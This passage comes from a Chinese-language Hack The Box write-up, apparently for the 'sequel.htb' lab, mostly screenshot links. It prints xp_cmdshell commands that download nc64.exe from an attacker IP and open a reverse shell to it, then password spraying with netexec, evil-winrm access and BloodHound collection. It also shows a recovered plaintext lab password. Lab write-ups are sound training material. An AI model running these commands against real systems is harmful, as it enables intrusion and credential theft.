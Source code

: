 ![Pasted image 20250724150100](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724150100.png)



**反弹shell**

**可以给目标机器上传一个nc：**
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.16.2:9988/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe'

**在目标机器上执行反弹shell：**
**EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.16.2 9999';**

![Pasted image 20250724151057](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724151057.png)

**查看C盘根目录中存在 sqlserver 2019**
![Pasted image 20250724151239](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724151239.png)

**查看配置文件sql-Configuration.INI，获取到配置文件信息**

![Pasted image 20250724151528](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724151528.png)



**查看系统中的用户：net user**
![Pasted image 20250724151646](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724151646.png)



**将这些用户保存为用户名字典，通过在sql-Configuration.INI中收集到的密码进行密码喷洒**

```
netexec smb sequel.htb -u users.txt -p 'WqSZAF6CysDQbGb3'
```

**找到账号ryan**
![Pasted image 20250724152041](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724152041.png)



**通过evil-winrm连接到ryan用户**

![Pasted image 20250724152315](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724152315.png)




**通过bloodhound-python收集域的相关信息，并进行分析**
https://github.com/BloodHoundAD/BloodHound/tree/f4d9c1af1529124d33c9f360a27686eea51755e1/Collectors  （传到目标主机上）
https://github.com/dirkjanm/BloodHound.py

**bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.232.128 -c all --zip**

**快速使用：https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart**

![Pasted image 20250724163829](E:\资料\HTB靶场解析\HTB-wp\Pasted image 20250724163829.png)



**上分析可知道ryan对ca_svc具有WriteOwner权限**
